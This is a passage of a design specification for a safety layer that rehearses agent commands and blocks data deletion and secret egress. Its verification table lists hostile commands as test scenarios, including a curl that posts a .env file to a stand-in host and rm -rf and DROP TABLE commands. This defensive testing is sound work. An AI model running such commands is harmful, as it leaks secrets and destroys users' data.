| `path.paths`, `egress.secrets` | `normalizePattern(p)` (structural form, NFC, `..` resolved, leading `/` stripped; no case folding) | more keys = tighter |
| `egress.allow_hosts` | `hostEntryKey(e)` | more keys = looser (reversed, as today) |
| `sql.tables` | ASCII lower-case | more keys = tighter |
| `path.deny`, `sql.max_rows_lost`, physics fields | unchanged | unchanged |
| `path.case_sensitive` | `cs = value === true` | `cs1 && !cs2` tighter; `!cs1 && cs2` looser; equal otherwise |

**Soundness argument.** For a field that is a set of patterns, the engine's verdict contribution is monotone in the set: for `paths`, `secrets`, and `tables` a violation exists when some element matches, so a superset of keys has at least the same violations; for `allow_hosts` a violation exists when no element allows the destination, so a subset of keys has at least the same violations. The key function is a function of the compiled matcher (two patterns with the same key compile to the same matcher), so key containment implies matcher containment. The predicate compares keys by string containment only, so it is sound (a `true` result never lowers any verdict) and incomplete (it cannot see that `data/x` is covered by `data/**`, that `a.example.test` is covered by `*.example.test`, or that `host` is covered by `host:443`). Folding is deliberately left out of the keys: with differing `case_sensitive` flags, folded key equality does not imply matcher containment for classes with mixed-case ranges such as `[A-c]`, and equal-flag comparisons can ignore folding without losing soundness.

**Why the engine stays monotone with the new rules**, case by case: (1) content hits are an existential over files whose path matches `secrets`, so extra `secrets` keys only add files; (2) the per-file candidate cap is per file, not global; (3) every notice that depends on the ward set (did not run, discards, path-escape) either only appears when ward-independent notices already make the run at least `warn` (events and payloads always do) or appears only for added items; (4) the overflow caps (`20` then `k more`) are applied after counting and do not change whether a violation list is empty; (5) the leak guard changes text only; (6) the physics hard failures (`jointLimitExceeded`, `selfCollisionOccurred`) read no ward parameter, so they appear identically under W1 and W2 and cannot make W2 weaker. Property 1 tests this on generated inputs.

### wards-config (`wards-config/`)

Package name `@ghost-run/wards-config`, directory `wards-config/` at the repository root (a sibling of `core/` and `ghost-runner/`, not under `integrations/`, for the same reason as `ghost-runner/`: it is a library that several integrations use). Add the line `  - wards-config` to `pnpm-workspace.yaml` under `packages:` (it is not covered by the existing globs `apps/*`, `integrations/*`, `worlds/*`). Runtime dependencies: `yaml` (pinned exactly `2.9.1`) and `@ghost-run/core` (`workspace:*`). Node 20 or later for `@ghost-run/wards-config/node`; the default entry also runs in a browser.

**Entry points and `package.json` `exports`.** Exactly two subpaths, each with `types` and `import` conditions that point to the built output (the `vitest` config and `tsconfig.json` alias both subpaths to the source files so tests never need a build):

```json
"exports": {
  ".":      { "types": "./dist/src/index.d.ts", "import": "./dist/src/index.js" },
  "./node": { "types": "./dist/src/node.d.ts",  "import": "./dist/src/node.js" }
}
```

- Default entry `@ghost-run/wards-config` (`src/index.ts`): `parseWards`, `printWards`, `formatConfigError`, and the types `ConfigError`, `ConfigErrorCode`, `ConfigWarning`, `ParseResult`.
- Node entry `@ghost-run/wards-config/node` (`src/node.ts`): `loadWardsFile` only. `src/load.ts` stays the only file with `node:fs/promises`.
- Enforcement (two checks, both required): (1) `wards-config/eslint.config.mjs` adds a second config block for every file in `src/` except `load.ts` and `node.ts`, with `no-restricted-imports` banning the patterns `node:*` and the bare built-in names (`fs`, `fs/promises`, `path`, `url`, `util`, `os`, `crypto`, `process`, `buffer`, `stream`, `child_process`, `module`, `worker_threads`, `assert`, `events`, `zlib`, `http`, `https`, `net`, `tls`, `readline`, `vm`, `v8`, `timers`, `string_decoder`, `perf_hooks`, `tty`, `dns`, `dgram`, `cluster`); (2) a test in `tests/smoke.test.ts` walks the import graph of `src/index.ts` (relative imports and re-exports followed, text-level scan of `import ... from`, `export ... from`, and `import(` specifiers) and fails when any specifier names a Node built-in; it also fails when `src/index.ts` reaches `load.ts` or `node.ts`.

```ts
export type ConfigErrorCode =
  | 'yaml-syntax-error' | 'yaml-feature-unsupported' | 'duplicate-key' | 'input-too-large'
  | 'file-unreadable' | 'root-not-mapping' | 'unknown-root-field' | 'wards-not-sequence'
  | 'unknown-kind' | 'missing-field' | 'unknown-field' | 'wrong-type' | 'out-of-range'
  | 'duplicate-id' | 'invalid-glob' | 'invalid-host' | 'invalid-character' | 'duplicate-entry'
  | 'unsafe-command-entry' | 'too-many-errors';
export interface ConfigError {
  readonly code: ConfigErrorCode; readonly message: string;
  readonly line?: number; readonly column?: number;          // 1-based
  readonly wardId?: string; readonly field?: string;        // field e.g. 'paths[1]'
  readonly detail?: string;                                  // underlying glob/host code
}
export interface ConfigWarning { readonly code: 'empty-ward-set' | 'catch-all-pattern'; readonly message: string; readonly line?: number; readonly column?: number }
export type ParseResult =
  | { readonly ok: true; readonly wardSet: WardSet; readonly safeCommands: string[]; readonly warnings: readonly ConfigWarning[] }
  | { readonly ok: false; readonly errors: readonly ConfigError[] };   // no wardSet, no safeCommands on error

// default entry: '@ghost-run/wards-config' (src/index.ts), browser-safe
export function parseWards(text: string): ParseResult;
export function printWards(wardSet: WardSet, options?: { readonly safeCommands?: readonly string[] }): string;
export function formatConfigError(e: ConfigError): string;

// Node entry: '@ghost-run/wards-config/node' (src/node.ts, implemented in src/load.ts)
export function loadWardsFile(path: string): Promise<ParseResult>;
```

**`safe_commands` (top-level, optional).** The key feeds the `ghost-gate` read-only safe list (kiro-integration spec). This spec parses, validates, and prints it, and does nothing else with it: `core` and `WardEngine` ignore it, and the `WardSet` type of `core` is unchanged (decision D22). The parsed list is the `ParseResult.safeCommands` field of `wards-config`, always an array on `ok: true` (`[]` when the key is absent) and absent on `ok: false`, the same rule as `wardSet`. A `Safe_Command_Entry` is a command prefix pattern: one or more tokens separated by exactly one space, every token over the charset `[A-Za-z0-9_./:=@%+,-]` (examples: `ls`, `git status`, `npm run test`). The entry regex is `^[A-Za-z0-9_./:=@%+,-]+( [A-Za-z0-9_./:=@%+,-]+)*$`, with 1 to 256 UTF-16 code units per entry and 0 to 256 entries. The charset is deliberately conservative: it excludes every shell operator and metacharacter, quotes, and non-ASCII text, so an entry can never be read as a command list or substitution by a prefix matcher. Per-entry validation order and codes:

| Check (in order) | Code | Line |
|---|---|---|
| value is not a sequence (including null) | `wrong-type` | list value |
| item is not a string | `wrong-type` | item |
| control or hidden character (Requirement 12 criterion 9; tab, CR, and LF included) | `invalid-character` | item |
| length 0 or over 256 | `out-of-range` | item |
| more than 256 entries (reported once) | `out-of-range` | list value |
| outside the entry regex (shell operator, metacharacter, quote, non-ASCII, double or edge space) | `unsafe-command-entry`, `detail` `charset` or `spacing` | item |
| equals an earlier entry (exact string) | `duplicate-entry`, message names the first line | later item |

`unsafe-command-entry` is the only new code. Messages are fixed strings plus the field name `safe_commands[<i>]`; they never contain the entry text. The list counts toward the 262,144-byte input cap, and the AST depth is unchanged (root mapping, sequence, scalar).

**`parseWards` pipeline** (never throws; the whole body is inside a `try` that converts any exception, including `RangeError`, to one `yaml-syntax-error`):

1. Byte length over 262,144 (computed from `TextEncoder`) gives `input-too-large` and nothing else.
2. **Pre-scan** (linear): any line with leading indentation over 64 spaces, or a run of more than 64 consecutive `[` or `{` characters, gives `yaml-feature-unsupported` (nesting). This protects the library's recursive composer from stack exhaustion on hostile input; it cannot reject a legitimate file.
3. `parseDocument(text, { lineCounter, schema: 'core', version: '1.2', merge: false, uniqueKeys: false, prettyErrors: false, maxAliasCount: 0 })`. Library errors map to `yaml-syntax-error` with the line from `lineCounter.linePos(error.pos[0])`. Duplicate keys are detected by the schema walker itself (it knows the first occurrence's line), not by the library flag.
4. **Walk the AST**, never calling `toJS`, so aliases are never expanded. Any node with an `anchor`, any explicit `tag`, any alias node, and the key `<<` give `yaml-feature-unsupported`. Depth over 8 gives the same code.
5. **Schema table** `kind -> fields` drives validation: for each field `{ name, required, check }`. Messages are fixed strings plus the field name and, for glob and host errors, the offending entry passed through `sanitizeText(entry, 80)`.
6. Sort errors by (`line`, `column`, `code`), keep the first 50, append `too-many-errors` when more existed.

The root mapping accepts the required key `wards` and the optional key `safe_commands`; any other root key gives `unknown-root-field`, a missing `wards` gives `wards-not-sequence`, and `safe_commands` is validated by the table above in step 5 of the pipeline.

The code for ids, table names, contact names, and `deny` values that do not match the allowed form is `out-of-range` (Requirement 12.3 to 12.5 give no separate code). `ConfigWarning` has two values: `empty-ward-set` (zero wards) and `catch-all-pattern` (a pattern that normalizes to `''` or `**`, which protects the whole Copy; legal but worth a line).

**Positions.** Each AST node has `range[0]`; `lineCounter.linePos` gives `{ line, col }`. Value errors use the value node; `unknown-field` uses the key node; `missing-field`, `unknown-kind`, and `duplicate-id` use the Ward mapping node; list-entry errors use the entry node and `field` is `paths[<i>]`.

**`printWards(wardSet, options?)`.** `options.safeCommands` is a new optional second parameter (a small options object, so later options need no new positional parameter). Canonical text: `wards:` then per ward `  - id: ...`, `    kind: ...`, then the kind's fields in the order of Requirement 12 criteria 4 to 7. Lists are flow sequences (`[a, b]`). A string prints plain only when it matches `[A-Za-z_][A-Za-z0-9_.-]*` and is not `true`, `false`, or `null` in any of the case forms the core schema reads; otherwise it prints double-quoted with `\uXXXX` escapes for control characters, DEL, C1, U+2028, U+2029, BOM, and the hidden ranges, and `\UXXXXXXXX` for astral hidden characters, so printing is total. Numbers print with `String(n)` (shortest round-trip form; `-0` prints as `0`). An empty list prints `[]`. When `options.safeCommands` is present and non-empty, one top-level line follows the last ward: `safe_commands: [<e1>, <e2>, ...]`, a flow sequence printed with the same string rule (`ls` plain, `git status` as `"git status"`); the key is omitted when the list is absent or empty, so an absent key and `[]` parse to the same `safeCommands` and the round trip stays exact. A caller that rewrites a file with `printWards` and omits `options.safeCommands` drops the key. The text ends with one newline.

**`loadWardsFile(path)`** (Node entry only; `src/load.ts`) uses `node:fs/promises`: `stat` first (over 262,144 bytes gives `input-too-large` without reading), then `readFile`, then `TextDecoder('utf-8', { fatal: true })`. A read or decode failure gives `file-unreadable` with no line and the path in `message`.

**`formatConfigError`**: `wards.yaml:<line>:<column>: [<code>]` + ` ward "<wardId>"` (when known) + ` field "<field>"` (when set) + `: <message>`; an error without a position prints `wards.yaml: [<code>]...`. Pure string assembly.

---

## Data Models

### Types added or changed in `core/src/types.ts`

```ts
// path variant of Ward gains one optional field
{ readonly id: string; readonly kind: 'path';
  readonly deny: ReadonlyArray<'delete' | 'overwrite'>;
  readonly paths: readonly string[];
  readonly case_sensitive?: boolean }            // absent = false

export interface WardNotice {
  readonly kind: 'effect-outside' | 'observed-event' | 'content-inspection' | 'path-escape';
  readonly reason: string;
  readonly stepIndex: number;                    // -1 when the notice is not tied to a step
  readonly destination?: string;
  readonly path?: string;
}
```

From ghost-runner W0, referenced and not redefined: `FileChange.kind` with `symlink-changed`, `SqlRowCountChange.dropped?`, `ObservedEvent.eventId?`, `SecretValues`, `EvaluateInputs`.

### Internal shapes

```ts
interface Needle { kind: EncodingKind; bytes: Uint8Array; views: ViewId[] }
type ViewId = 'v0' | 'v1' | 'v2' | 'v3' | 'v1l' | 'v3l';
interface PreparedPayload { eventId: string; views: Map<ViewId, Uint8Array>; bloom: Map<ViewId, Uint8Array> }
interface PreparedFile { path: string; canaries: Uint8Array[]; discarded: CanaryExtraction['discarded'] }
```

### Message builder: exact templates

Let `S(x)` be `sanitizeText(x, 120)` and `R(x)` be `S` then a 200-code-point limit (`first 197 + '...'`) for reasons. `suggestion(kind)` is fixed:

| Kind | Text |
|---|---|
| `path` | `Limit the command to paths the ward does not protect, or back up the protected paths first.` |
| `sql` | `Try a soft delete or a migration with a backup.` |
| `egress` | `Do not send secret files or their contents to hosts outside allow_hosts; remove the network call or use an allowed host.` |
| `physics` | `Reduce speed or contact force, or change the plan, and rehearse again.` |

| Verdict | Lines (joined with `\n`) |
|---|---|
| `pass` | `GHOST RUN PASSED: all <n> <noun> cleared.` where `<n>` is `ctx.wardCount` and `<noun>` is `ward` when `n` is 1, else `wards` (`all 0 wards cleared.`) |
| `warn` | `GHOST RUN NEEDS HUMAN APPROVAL: <k> notice(s) outside the copy or needing review. First: <R(notices[0].reason)>.` |
| `block` | line 1: `GHOST RUN BLOCKED by ward <S(wardId)>: <R(reason)>. <suggestion(kind)>` of the primary violation (first violation of the first ward, in `violations` order, which the engine already emits in ward order); then up to 3 lines `Also violated ward <S(wardId)>: <R(reason)>.`; then, if violations remain, `+<k> more violations. See the seance page.` |

After these lines: if `claims` is passed and `!claims.p5 || !claims.p6`, one claim line is appended to every verdict kind: `P5 and P6 protections are NOT guaranteed for this run: no ghost rehearsal took place (static analysis only).` (`CLAIM_LOWERED_LINE`) when `claims.reason` is `static-analysis` or absent, and `Some steps could not be rehearsed in the playground; P5 and P6 are not claimed for this run.` (`CLAIM_LOWERED_UNSUPPORTED_STEP_LINE`) when it is `unsupported-step`. When `claims` is not passed (worlds where P5 and P6 do not apply, for example Ghost Hand), no claim line is added. Then, if a valid seance link exists, ` Seance: <url>` is appended to the last line of the message. The link is `<base>/seance/<id>`: `base` defaults to `http://localhost:5317`, loses one trailing `/`, and must satisfy `^https?://`, be at most 200 code points, and contain no character that `sanitizeText` would change; `id` must match `^[A-Za-z0-9_-]{1,64}$`. Otherwise the link is omitted without an exception.

**Length cap.** The whole message is at most 1,200 code points. While it is longer, the last shown `Also violated` line is dropped and the `+<k> more` count is recomputed. If it is still longer after all `Also` lines are gone, the message is returned as is: the bounded parts (line 1 at most about 480, claim line at most about 130, seance at most about 290) always fit under 1,200, so this branch cannot occur for valid inputs (checked by Property 14).

A `block` verdict with no violation (an inconsistent input) renders `GHOST RUN BLOCKED: no violation details available.`; a `warn` verdict with no notices renders the `warn` line with `0 notice(s)` and `First: (none)`.

**Who supplies the seance id.** The caller. The hook assigns the graveyard entry id when it writes the entry and passes it as `seance.id`; for pass and warn the same id names the run. `core` only validates the shape. The `kiro-integration` and `ui-kit` specs must adopt this: the id must match `[A-Za-z0-9_-]{1,64}`. The lowered claim reaches the UI through the same source of truth: the hook builds `claims = { p5: isolation.p5Claimed, p6: isolation.p6Claimed }` from the ghost-runner `RunResult`; the UI reads `RunResult.isolation` itself and shows `CLAIM_LOWERED_LINE` (exported by `core`) so the wording is the same in message, UI, and README.

### Default `wards.yaml` and where it lives

Location: `apps/ghost-shell/wards.yaml`. Reason: it is the policy of the Ghost Shell app, which runs the ghost-runner world; ghost-runner's `Repo_World` is not under `worlds/`, and a copy under `ghost-runner/` would couple the library to one policy. The world-contract checklist item "wards documented in `worlds/<name>/wards.yaml`" applies to drop-in worlds; the README states that for the repo world the file is `apps/ghost-shell/wards.yaml`. The file content is exactly the block in Requirement 18 criterion 2. After the three wards it has the top-level key `safe_commands: [ls, pwd, cat, "git status", "git diff"]` (Open Item 16, resolved; matching rules are owned by the kiro-integration spec). `wards-config/tests/default-wards.test.ts` expects `safeCommands` equal to `["ls", "pwd", "cat", "git status", "git diff"]`. Tests that load it live in `wards-config/tests/` and resolve the path relative to the test file, so no package imports another package's source.

`structure.md` update (a later task, not edited now): add a `wards-config/` entry to the tree ("`@ghost-run/wards-config`: wards.yaml parser, validator, printer; depends on core only"), a line in Dependency Direction (`wards-config/` may depend on `core/` only, through its public entry; `core/` must not import it), a line in "What Goes Where" (`wards.yaml` parsing and printing -> `wards-config/`; default Ghost Shell wards -> `apps/ghost-shell/wards.yaml`), and one more row in the `ghost-gate` description saying the hook loads wards through `wards-config`.

### README dependency table rows to add (confirm the figures on day one)

| Library | Version | License | Used by | Purpose |
|---|---|---|---|---|
| `yaml` (eemeli) | 2.9.1 (pinned exactly) | ISC (confirmed 2026-11-18, see `docs/measurements.md`) | `wards-config` | YAML 1.2 parser with source ranges; browser build is the default export condition |
| `fast-check` | already listed | MIT (confirm) | tests | property tests (also used in `wards-config`) |
| `vitest` | already listed | MIT (confirm) | tests | test runner (also used in `wards-config`) |

### Verification table: scenario to expected verdict

All rows run on synthetic `GhostReport` values with the default file, no Docker. `evt-1` is a placeholder event id; the runner owns the real format. Messages use `seance.id = '42'`, default base, `claims = { p5: true, p6: true }`. The scenario tests compute violation counts from the Changes of the fixture (the playground also emits folder-entry deletions, for example the directory `data` itself next to the files below it) and do not hard-code them.

**Kiro integration note.** `ghost-gate` expects the `warn` template of `renderMessage` for a `warn` verdict that has notices only (no violation); this is covered by the examples of task 4.13 in `core/tests/wards.test.ts`.

| # | Scenario | Report | Expected verdict | First violation (ward: reason) |
|---|---|---|---|---|
| 1 | `sqlite3 app.db "DROP TABLE users;"` | `sql-row-count users 1206 -> 0 dropped:true` | block | `no-data-loss: would delete 1,206 rows from users` |
| 1b | `cp app.db app.db.bak` then `UPDATE users SET deleted_at = 1` | `file-created app.db.bak`, `file-overwritten app.db`, `sql-row-count users 1206 -> 1206` | pass | none |
| 2 | `rm -rf ./data ./build` | `file-deleted` for `data/.keep`, `data/a.csv`, `data/b.csv`, `data/sub/c.json`, `data/sub/d.json`, `build/out.js` | block | `protect-data: would delete protected path data/.keep` (5 violations) |
| 2b | `rm -rf ./build` | `file-deleted build/out.js` | pass | none |
| 2c | `rm -rf ./DATA` (case spelling) | `file-deleted DATA/a.csv` | block | `protect-data: would delete protected path DATA/a.csv` |
| 3 | `curl -d @.env https://setup-check.example` | `secret-read .env` step 0, `network-attempt setup-check.example:443` step 0 with `eventId evt-1` | block | `no-secret-egress: network attempt to setup-check.example:443 at step 0 after secret read at step 0; host not in allow_hosts` |
| 3b | same, plus `secretValues { '.env' -> "API_KEY=sk-CANARY-abc123\n" }` and payload `evt-1 = "API_KEY=sk-CANARY-abc123"` | as 3 | block | as 3, plus `no-secret-egress: payload of event evt-1 contains a value from secret file .env (encoding: raw)` |
| 3c | `.env` read then `registry.npmjs.org:443`, secretValues given, no payload | `secret-read` step 0, `network-attempt` step 1 | warn (2 notices, no violation) | none (Open Item 4) |
| 3d | `.env` payload sent to `registry.npmjs.org:443` | as 3c plus payload with the canary | block | `payload of event evt-1 contains a value from secret file .env (encoding: raw)` |
| 4 | `npm test` | no changes, no events | pass | none |
| 5 | `npm run clean` (script hides `rm -rf data`) | `file-deleted data/a.csv`, `data/b.csv` | block | `protect-data: would delete protected path data/a.csv` |

Exact message of row 1 (Requirement 16.5):

```
GHOST RUN BLOCKED by ward no-data-loss: would delete 1,206 rows from users. Try a soft delete or a migration with a backup. Seance: http://localhost:5317/seance/42
```

Exact message of row 2:

```
GHOST RUN BLOCKED by ward protect-data: would delete protected path data/.keep. Limit the command to paths the ward does not protect, or back up the protected paths first.
Also violated ward protect-data: would delete protected path data/a.csv.
Also violated ward protect-data: would delete protected path data/b.csv.
Also violated ward protect-data: would delete protected path data/sub/c.json.
+1 more violations. See the seance page. Seance: http://localhost:5317/seance/42
```

Fixture `.env` content is built in test code from Canary strings (`sk-CANARY-abc123`); no `.env` file is committed.

### Open Items resolved

| # | Resolution | Where |
|---|---|---|
| 1 | Resolved. Engine accepts the four file kinds; `symlink-changed` is `overwrite`. The stale `file-modified` note in `notes.md` is closed by this item. | Engine, "Path ward" |
| 2 | Resolved. `sql-row-count` with `dropped`; no per-file scope; `dropped` counts all rows. | Engine, "SQL ward" |
| 3 | Resolved. `eventId` is owned by the runner; wards uses payload keys as opaque ids, inspects orphan payloads, and adds a notice for them. | Engine, "Notices and order" |
| 4 | Resolved. Observed events keep producing warn notices; table rows 3c and 3d show the interplay (allowed host after secret read is warn, a canary in the payload is block). | Verification table |
| 5 | Resolved. `secretValues` is the only canary source; aligned with `ReadonlyMap<string, Uint8Array>` keyed by Copy-relative path. | Overview, "Content inspection" |
| 6 | Resolved. New notice kinds `content-inspection` and `path-escape`; no structured fields on violations. | Data Models, types |
| 7 | Resolved. 100 runs in a short run, 10,000 nightly; all properties are pure. | Testing Strategy |
| 8 | Resolved. Default file omits `github.com`. | Default `wards.yaml` |
| 9 | Resolved. The header comment in `wards.ts` is deleted in the engine task. | Task note in Testing Strategy |
| 10 | Resolved. `claims` is an optional field of `RenderContext`, built by the caller from `RunResult.isolation`; a false claim carries a `reason`. | Message builder |
| 11 | Resolved. Caller-supplied id; hook assigns it; `core` validates the shape. | Message builder |
| 12 | Resolved. `apps/ghost-shell/wards.yaml`. | Default `wards.yaml` |
| 13 | Resolved. `wards-config/`, listed in `pnpm-workspace.yaml`; steering update is a later task. | wards-config |
| 14 | Resolved. `>=` on `stepIndex`; a same-step test is in Property 8. | Engine, "Egress ward" |
| 15 | Resolved. The four W0 items are consumed unchanged. | Overview |


---

## Correctness Properties

*A property is a characteristic or behavior that should hold true across all valid executions of a system-essentially, a formal statement about what the system should do. Properties serve as the bridge between human-readable specifications and machine-verifiable correctness guarantees.*

Scope reminder. Properties 1 (P4) hold for all worlds. Properties 5 and 8 to 12 are the judgment halves of P5 and P6: they are claimed only where P1 holds (P5) and where network attempts are recorded (P6), and never for `static-analysis` mode. Property 14 requires the lowered-claim line for that mode. The Docker-box halves are tested in ghost-runner.

### Property 1: Ward monotonicity with the refined rules (P4)

For all ward sets `W1` and `W2` with `isMoreRestrictive(W1, W2) === true`, all generated reports (changes with glob-matching and bypass spellings, observed events, effects), and all generated `inputs` (payloads with raw and encoded canaries, `secretValues` bound to secret paths), `VERDICT_ORDER[evaluate(report, W2, inputs).verdict] >= VERDICT_ORDER[evaluate(report, W1, inputs).verdict]`. For all `path` wards `w` differing only in `case_sensitive` (`true` versus absent or `false`), the verdict of the case-insensitive variant is at least that of the case-sensitive one. The property checks soundness only; completeness is not asserted.

**Validates: Requirements 4.6, 11.2, 15.1, 15.2, 15.3, 15.4, 15.5, 15.6, 15.7, 15.8**

### Property 2: Path normalization is idempotent and spelling-invariant

For all strings `p`, `normalizePath(normalizePath(p)) === normalizePath(p)`. For all segment lists `s` of non-empty names without `/`, `.`, or `..`, and all decorations (a leading `./`, doubled `/`, inserted `.` segments, inserted `x/..` pairs, a trailing `/`, a leading `/`), the decorated spelling normalizes to `s.join('/')`. For all NFD and NFC spellings of the same text the results are equal. A path that resolves to the Copy root normalizes to `''`.

**Validates: Requirements 2.1, 2.2, 2.5, 2.6, 2.8**

### Property 3: Glob matcher agrees with a reference matcher and stays within the step bound

For all valid patterns `g` (generated from literals, `*`, `?`, classes, `**` segments over a small alphabet) and all paths `p`, in both case modes, `globMatches(g, p)` equals the result of a reference matcher in the tests that uses naive recursion over the same grammar (and treats a path below a named directory as a match). For all such pairs the internal step counter satisfies `steps <= c * |g| * |p|` for a fixed constant `c`. For all patterns, `validateGlob(g) === null` for generated valid patterns and returns the expected code for each single-defect mutation.

**Validates: Requirements 3.1, 3.2, 3.3, 3.4, 3.5, 3.6, 3.7, 3.8, 3.9, 3.10, 4.1, 4.3**

### Property 4: Host matching is spelling-invariant and exact

For all host names `h` under a reserved suffix, all ports, and all decorations (upper-case, one trailing dot, a scheme, userinfo, a path, query, or fragment), `allows` gives the same result as an independent reference function over the undecorated `(host, port)`. For all allow lists `A` and `B` with `A` a subset of `B` (by `hostEntryKey`) and all destinations, `allows_A(d)` implies `allows_B(d)`. Wildcard entries allow exactly one extra leftmost label. Numeric-looking names (`3232235786`, `0x7f.1`) are never allowed by an IPv4 entry. IPv6 literals match only the same canonical address.

**Validates: Requirements 7.1, 7.2, 7.3, 7.4, 7.5, 7.6, 7.7, 7.8, 7.9, 7.10, 15.2**

### Property 5: Path ward protection completeness (P5, judgment half)

For all protected patterns drawn from `data/**`, `db/*.sqlite`, `.env`, `**/*.pem`, a literal directory, and generated globs, and all plans over a deterministic in-memory file-system world (the fixture world resolves paths with its own independent resolver, reports resolved paths for deletes through links, and reports a move as a delete at the source plus a create at the destination) that delete or overwrite an existing path matching the pattern, using any of the spellings `./data/../data/x`, `data//x`, `data/./x`, `DATA/x` (default case policy), a glob expansion, a `find`-style recursive delete, move-then-delete, or a script-hidden delete (the whole effect in one action), `evaluate` returns `block` with a violation of the protecting ward. The claim applies only where P1 holds.

**Validates: Requirements 4.1, 5.1, 5.2, 5.5, 5.6, 19.2, 19.3, 19.4**

### Property 6: Path ward violations agree with the reference matcher

For all `path` wards, all change lists, and all shuffles of those lists: the violations of the ward are exactly the (display path, operation) pairs, after de-duplication, for which the reference matcher says a `file-deleted` change (operation `delete`) or a `file-overwritten` or `symlink-changed` change (operation `overwrite`) matches, restricted to operations in `deny`. `file-created` changes, changes with a non-string `path`, and unknown kinds never add a violation. The list is sorted by `compareCodePoints` of the display path then operation, has no duplicate (ward, path, operation), and is identical for every shuffle of the input.

**Validates: Requirements 5.3, 5.4, 5.8, 4.3**

### Property 7: SQL row-loss accounting

For all lists of `sql-row-count` changes (some with `dropped: true`, some malformed) over table names with arbitrary ASCII case, and all `sql` wards, a violation exists exactly when the sum over changes of `max(0, rowsBefore - rowsAfter)` (all `rowsBefore` for dropped tables) for tables in `tables` (ASCII case-insensitive) exceeds `max_rows_lost`; the reason starts with `would delete `, lists tables in ascending lower-case order with comma-grouped numbers, and ends with ` (max allowed <m>)` exactly when `max_rows_lost > 0`; the result does not depend on the order of the changes.

**Validates: Requirements 6.1, 6.2, 6.3, 6.5, 6.6**

### Property 8: Secret read then unapproved network attempt blocks (P6, action criterion)

For all secret-read events on a path matching the ward's `secrets` at step `i`, and all network attempts to a host outside `allow_hosts` at step `j` (any payload bytes, any destination decoration, any port), `evaluate` returns `block` with a behavior violation when `j >= i` and adds no behavior violation when `j < i`. With no matching secret-read there is no behavior violation. Behavior violations are sorted by (`stepIndex`, destination), at most 20 are listed followed by one `<k> more network attempts not listed` entry, and behavior violations come before content violations of the same ward. A payload that is a gzip-like, XOR-ed, reversed, or split transform of the canary is never reported by content inspection but the run is still `block`.

**Validates: Requirements 8.1, 8.2, 8.3, 8.4, 8.5, 8.6, 8.7, 11.6, 11.7, 19.5**

### Property 9: Content inspection detects every supported encoding at every offset (P6, content criterion)

For all canaries (prefix `sk-CANARY-` plus 0 or more alphanumeric characters, at least 8 bytes in total), all prefixes and suffixes of 0 to 64 arbitrary bytes, and all encodings generated by independent encoders (raw; base64 and base64url, padded and unpadded, with the canary at byte offset 0, 1, and 2 of a 3-byte group; lower-, upper-, and mixed-case hex; percent-encoding with `%XX` in either case, `+` or `%20` for a space, and unreserved characters literal; base64 and hex text broken into lines of 76 or 60 characters or with `CR LF` inserted; base64 percent-encoded), the inspector reports the matching `EncodingKind`. For all such payloads delivered to a host that `allow_hosts` allows, with and without a `secret-read` event, `evaluate` returns `block` with a content violation naming the secret path and the kinds in the fixed order.

**Validates: Requirements 9.3, 9.7, 10.1, 10.2, 10.3, 10.4, 10.5, 10.6, 10.7, 10.8, 11.1, 11.3, 11.4, 19.6, 19.7**

### Property 10: No false positives and a hard 64 KiB cap

For all random payloads and canary sets such that an independent check finds no encoded form of any canary in the payload, the inspector reports no hit. For all payloads longer than 65,536 bytes, a canary whose encoded form ends at or before byte 65,536 is detected and one that starts at or after it is not.

**Validates: Requirements 9.6, 10.9, 19.6**

### Property 11: Canary extraction bounds

For all file contents and paths, every candidate of `extractCanaries` has length 8 to 16,384, the candidates are pairwise distinct by bytes, there are at most 256, and `discarded` counts account for every dropped value. For all `.env` style contents with generated `KEY=VALUE`, `export KEY=VALUE`, quoted and unquoted lines, the value (with one pair of matching quotes removed) is a candidate when its length is in range.

**Validates: Requirements 9.4, 9.5**

### Property 12: No secret value in any output

For all canaries, payloads, and reports in which the canary also appears inside destinations, paths, event ids, and table names in raw, base64, base64url, hex, and percent forms, and for all malformed or absent `secretValues`: the `JSON.stringify` of the `WardVerdict`, the output of `renderMessage` for that verdict, and any thrown error message contain no canary byte sequence and none of its raw, base64 (standard and URL-safe, padded and unpadded), hex (either case), or percent-encoded forms as a substring.

**Validates: Requirements 9.9, 9.10, 11.4, 11.5, 17.6, 19.8**

### Property 13: Evaluation is deterministic, order-invariant, and total

For all reports, ward sets, and inputs, `evaluate` returns equal values (deep equal, same JSON) on repeated calls and on any shuffle of `changes` within a step, of `observedEvents`, and of the insertion order of `payloads` and `secretValues`; `violations` are in ward order; `notices` are in the order `effect-outside`, `observed-event`, `content-inspection`, `path-escape`. `evaluate` never throws for any well-typed input, including the malformed `secretValues` entries and hostile strings generated by casts. With `inputs` absent, the verdict equals the verdict of a reference implementation of the old rules for reports without glob characters, symlink changes, or ports.

**Validates: Requirements 1.5, 5.4, 8.6, 9.2, 9.3, 9.10, 11.7, 17.3**

### Property 14: Messages are deterministic, bounded, and injection-safe

For all verdicts (including hostile ward ids, reasons, paths, and notices that contain `\n`, control characters, hidden characters built from escapes, and strings over 120 characters), all `RenderContext` values, `renderMessage` returns the same string for equal inputs; has length at most 1,200 code points; contains `\n` only as the separator of the template lines (the number of lines is at most 1 + 3 + 1 + 1 for `block`, 1 for `pass`, 1 for `warn`, plus at most 1 claim line); contains no control or hidden character; follows the templates of the "Message builder" section; includes the lowered-claim line when `claims.p5` or `claims.p6` is false; ends with ` Seance: <base>/seance/<id>` exactly when `base` and `id` are valid; and never throws.

**Validates: Requirements 16.1, 16.2, 16.3, 16.4, 16.5, 16.6, 16.7, 16.8, 16.9, 17.1, 17.2, 17.4, 17.5, 17.7, 17.8, 19.10**

### Property 15: Every configuration defect is reported at its line with the expected code

For all valid `WardSet` values printed to text and all single mutations (unknown kind, missing field, extra field, wrong type, duplicate id, out-of-range value, invalid glob, invalid host, invalid character, duplicate entry, and for `safe_commands`: non-list value, non-string item, hidden character, over-long entry, more than 256 entries, an entry with a shell operator or other character outside the charset, duplicate entry) applied to one known node, `parseWards` returns `ok: false` with an error of the expected `code` whose `line` is the line of the mutated node (the key line for `unknown-field`, the ward mapping line for `missing-field`, `unknown-kind`, and `duplicate-id`), `errors` is non-empty and sorted by (`line`, `column`, `code`), and the error message contains no input text other than the field name, the id, the code, and an entry truncated to 80 characters. For all valid inputs `ok: true` has no `errors` field, `wardSet` preserves document order and leaves absent optional fields absent, and `safeCommands` preserves document order and is `[]` when the key is absent. The `safe_commands` mutations expect `wrong-type`, `wrong-type`, `invalid-character`, `out-of-range`, `out-of-range`, `unsafe-command-entry`, and `duplicate-entry` at the line of the mutated item (the line of the list value for the non-list and too-many-entries cases).

